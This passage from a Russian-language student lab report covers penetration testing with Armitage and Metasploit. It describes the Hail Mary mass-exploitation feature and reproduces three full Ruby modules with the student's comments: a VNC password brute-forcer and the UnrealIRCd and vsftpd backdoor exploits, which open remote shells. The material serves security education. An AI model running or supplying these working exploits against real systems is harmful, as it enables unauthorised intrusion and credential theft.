Функция  Hail Mary доступна в меню Attacks -> Hail Mary. Данная функция запускает все эксплоиты против атакуемой машины, оставляя те их них, которые точно выполнятся. Затем эти эксплоиты запускаются и мы получаем список доступных сессий.

После запуска команды Hail Mary мы получили доступ к php, java, а также с помощью 5-ти различных эксплоитов доступ к unix shell. Информация о каждой сессии, в том числе эксплоит, с помощью которого был получен доступ отображены в консоли, подключиться к сессии можно через контекстное меню (рис.\ref{ris:image9}).
\begin{figure}[h]	\center{
\includegraphics[width=1.2\linewidth]{pics/9.png}}
\caption{Armigate Hail Mary}
\label{ris:image9}
\end{figure}

\subsubsection{Изучить три файла с исходным кодом эксплоитов или скриптов на ruby и описать, что в них происходит}
Первый раз смотрю на ruby-код, но постараюсь разобраться.

Ниже приведены тексты скриптов с добавленными мной комментариями начинающимися с \#!.
\begin{itemize}
	\item auxiliary/scanner/vnc/vnc\_login
\end{itemize}
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'rex/proto/rfb'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/vnc'

class Metasploit3 < Msf::Auxiliary

  include Msf::Exploit::Remote::Tcp
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  include Msf::Auxiliary::AuthBrute

  #! Инициализация модуля
  def initialize
    super(
      'Name'        => 'VNC Authentication Scanner',
      'Description' => %q{
          This module will test a VNC server on a range of machines and
        report successful logins. Currently it supports RFB protocol
        version 3.3, 3.7, 3.8 and 4.001 using the VNC challenge response
        authentication method.
      },
      'Author'      =>
        [
          'carstein <carstein.sec[at]gmail.com>',
          'jduck'
        ],
      'References'     =>
        [
          [ 'CVE', '1999-0506'] # Weak password
        ],
      'License'     => MSF_LICENSE
    )

    #! Добавление опций к модулю
    register_options(
      [
        Opt::Proxies,
        Opt::RPORT(5900),
        OptString.new('PASSWORD', [ false, 'The password to test' ]),
        OptPath.new('PASS_FILE',  [ false, "File containing passwords, one per line",
          File.join(Msf::Config.data_directory, "wordlists", "vnc_passwords.txt") ]),

        # We need to set the following options to make sure BLANK_PASSWORDS functions properly
        OptString.new('USERNAME', [false, 'A specific username to authenticate as', '<BLANK>']),
        OptBool.new('USER_AS_PASS', [false, 'Try the username as the password for all users', false])
      ], self.class)

    register_autofilter_ports((5900..5910).to_a) # Each instance increments the port by one.

    # We don't currently support an auth mechanism that uses usernames, so we'll ignore any
    # usernames that are passed in.
    @strip_usernames = true
  end

  def run_host(ip)
    #! вывод информационногоо сообщения
    print_status("#{ip}:#{rport} - Starting VNC login sweep")
    
    #! создание коллекции с пользовательскими данными
    cred_collection = Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS']
    )

    #! добавление к колекции пароли из базы данных
    cred_collection = prepend_db_passwords(cred_collection)
    
    #! LoginScanner - класс, который позволяет тестировать на 
    #! логин различные протоколы. VNC в данном случае.
    #! Создается и настраивается соотв. объект.
    scanner = Metasploit::Framework::LoginScanner::VNC.new(
        host: ip,
        port: rport,
        proxies: datastore['PROXIES'],
        cred_details: cred_collection,
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['ConnectTimeout'],
        max_send_size: datastore['TCP::max_send_size'],
        send_delay: datastore['TCP::send_delay'],
        framework: framework,
        framework_module: self,
        ssl: datastore['SSL'],
        ssl_version: datastore['SSLVersion'],
        ssl_verify_mode: datastore['SSLVerifyMode'],
        ssl_cipher: datastore['SSLCipher'],
        local_port: datastore['CPORT'],
        local_host: datastore['CHOST']
    )

    #! метод scan! пытается залогиниться по всем credentials из cred_collection,
    #! используя метод attempt_login
    #! result - структура, хранящая результаты попытки логина
    scanner.scan! do |result|
    #! to_h формирует хеш из объекта result
      credential_data = result.to_h
      credential_data.merge!(
          module_fullname: self.fullname,
          workspace_id: myworkspace_id
      )
      
      #! Если лoгин прошел успешно, то выводится информация о credential
      if result.success?
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        print_good "#{ip}:#{rport} - LOGIN SUCCESSFUL: #{result.credential}"
      else
      #! иначе выводится сообщение о неуспешном логине
        invalidate_login(credential_data)
        vprint_error "#{ip}:#{rport} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})"
      end
    end

  end

end
\end{verbatim}
\begin{itemize}
	\item exploit/unix/irc/unreal\_ircd\_3281\_backdoor
\end{itemize}
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##


require 'msf/core'

#! Msf::Exploit::Remote - базовый класс для эксплоитов, запускаемых не на локальной машине
class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking
  
  #! Предоставляет методы для подключения и коммуникации с удаленным хостом
  include Msf::Exploit::Remote::Tcp
  
  #! инициализация
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'UnrealIRCD 3.2.8.1 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the
        Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the
        Unreal3.2.8.1.tar.gz archive between November 2009 and June 12th 2010.
      },
      'Author'         => [ 'hdm' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2010-2075' ],
          [ 'OSVDB', '65445' ],
          [ 'URL', 'http://www.unrealircd.com/txt/unrealsecadvisory.20100612.txt' ]
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => false,
      'Payload'        =>
        {
          'Space'       => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              'RequiredCmd' => 'generic perl ruby telnet',
            }
        },
      'Targets'        =>
        [
          [ 'Automatic Target', { }]
        ],
      'DefaultTarget' => 0,
      'DisclosureDate' => 'Jun 12 2010'))

    #!  настройка опций
    register_options(
      [
        Opt::RPORT(6667)
      ], self.class)
  end

  def exploit
    #!  метод класса Remote. Устанавливает соединение по протоколу 
    #! IMAP с хостом указаным в RHOST через порт RPORT
    connect
    
    #! печать сообщения
    print_status("Connected to #{rhost}:#{rport}...")
    #! получение сообщение, сформированного после подключения и построчная его печать
    banner = sock.get_once(-1, 30)
    banner.to_s.split("\n").each do |line|
      print_line("    #{line}")
    end

    print_status("Sending backdoor command...")
    
    #! кодирование payload и отправка на атакуемую машину
    sock.put("AB;" + payload.encoded + "\n")

    # Wait for the request to be handled
    1.upto(120) do
      break if session_created?
      select(nil, nil, nil, 0.25)
      
      #! Запуск обработчика, который каким-то образом обрабатывает
      #! соединение, возвращенное payload, если оно было установлено
      handler()
    end
    
    #! разрыв соединения
    disconnect
  end
end
\end{verbatim}
\begin{itemize}
	\item exploit/unix/ftp/vsftpd\_234\_backdoor
\end{itemize}
\begin{verbatim}
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

#! Msf::Exploit::Remote - базовый класс для эксплоитов, запускаемых не на локальной машине
class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking
  
  #! Предоставляет методы для подключения и коммуникации с удаленным хостом
  include Msf::Exploit::Remote::Tcp
  
  #! инициализация
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'VSFTPD v2.3.4 Backdoor Command Execution',
      'Description'    => %q{
          This module exploits a malicious backdoor that was added to the	VSFTPD download
          archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
          June 30th 2011 and July 1st 2011 according to the most recent information
          available. This backdoor was removed on July 3rd 2011.
      },
      'Author'         => [ 'hdm', 'MC' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'OSVDB', '73573'],
          [ 'URL', 'http://pastebin.com/AetT9sS5'],
          [ 'URL', 'http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html' ],
        ],
      'Privileged'     => true,
      'Platform'       => [ 'unix' ],
      'Arch'           => ARCH_CMD,
      'Payload'        =>
        {
          'Space'    => 2000,
          'BadChars' => '',
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType'    => 'cmd_interact',
              'ConnectionType' => 'find'
            }
        },
      'Targets'        =>
        [
          [ 'Automatic', { } ],
        ],
      'DisclosureDate' => 'Jul 3 2011',
      'DefaultTarget' => 0))
      
    #!  настройка опций
    register_options([ Opt::RPORT(21) ], self.class)
  end

  def exploit
    
    #! подключение к порту 6200
    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_status("The port used by the backdoor bind listener is already open")
      #! Если удается подключиться, что вызывается обработчик handle_backdoor и скрипт завершается
      handle_backdoor(nsock)
      return
    end

    # Connect to the FTP service port first
    connect
    
    #! печать ответного сообщения
    banner = sock.get_once(-1, 30).to_s
    print_status("Banner: #{banner.strip}")

    #! посылается набор случайный данных.
    #! При этом функция rand_text_alphanumeric избегает "плохих" символов
    sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
    resp = sock.get_once(-1, 30).to_s
    print_status("USER: #{resp.strip}")

    #! проверка ответа сервера на возможность подключения только анонимных пользователей.
    if resp =~ /^530 /
      print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
      disconnect
      return
    end

    #! проверка корректности ответа сервера
    if resp !~ /^331 /
      print_error("This server did not respond as expected: #{resp.strip}")
      disconnect
      return
    end

    #! отправка пароля
    sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

    #! попытка запустить обработчик бэкдора
    # Do not bother reading the response from password, just try the backdoor
    nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
    if nsock
      print_good("Backdoor service has been spawned, handling...")
      handle_backdoor(nsock)
      return
    end

    disconnect

  end

  #! обработчик бэкдора
  def handle_backdoor(s)

    s.put("id\n")

    #! проверка сервиса на порту 6200 - является ли он shell консолью. Отсключаемся, если нет.
    r = s.get_once(-1, 5).to_s
    if r !~ /uid=/
      print_error("The service on port 6200 does not appear to be a shell")
      disconnect(s)
      return
    end

    print_good("UID: #{r.strip}")

    #! запуск payload
    s.put("nohup " + payload.encoded + " >/dev/null 2>&1")
    handler(s)
  end

end
\end{verbatim}
\section{Выводы}
В ходе выполнения лабораторной работы были изучены инструменты и методы тестирования на проникновение, получены навыки работы с metasploit framework, armigate, проведено несколько видов атак из консоли и из графической оболочки. А также изучены несколько исходных файлов эксплоитов.

\end{document}
